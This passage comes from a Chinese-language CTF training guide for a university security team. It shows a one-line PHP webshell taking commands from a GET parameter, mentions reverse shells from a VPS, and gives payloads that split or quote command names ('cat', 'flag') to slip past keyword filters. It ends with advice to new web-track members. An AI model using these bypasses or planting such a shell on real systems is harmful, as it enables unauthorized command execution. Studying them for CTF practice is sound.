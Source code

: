 ```php
<?php
exec($_GET[1]);

// 1=ls>1.txt
```

或者是反弹shell，反弹shell需要公网ip，一般都是利用vps来进行

<h4 id="RtDfX">bypass-5 变量拼接</h4>

常见于ban掉了关键的字符串组合，比如

```php
<?php
$cmd = $_GET['cmd'] ?? '';
if (preg_match('/cat|flag/', $cmd)) {
die("Letters not allowed!");
}
system($cmd);
```

```php
?cmd=a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

<h4 id="rVKS4">bypass-6 符号绕过</h4>

+ 单引号----`''`
+ 双引号---`""`
+ 反斜杠--- `\`

像上面的题一样，我们可以通过`ca''t ca""t c"a"t ca\t`这样来`bypass`

<h2 id="LA4rz">WEB的路</h2>

web其实入门很基础，可能你会一个F12打开网页前端源码你就是入门了，但是其实这只是冰山一角，后面还有top漏洞，java安全等等

你真正想要学好这个web，你就得做好吃苦的决心了

咱们web手主要是在战队负责CTF方向的web题目，以及省内的护网行动

保研加分什么的，正常学随便加满，但是也得浇一盆冷水，如果你只是混子，那么打比赛的路其实不适合你

然后我希望大家能活跃起来，不可能说你做我们留下来的作业一点问题都没有吧，你得来和我们主动交流沟通，我们才知道你们的缺点在哪里，普遍的问题是什么，希望都活跃起来，多多交流，平时闲聊也是没什么问题的，web有四个学长，问题多一点我们也能回答完



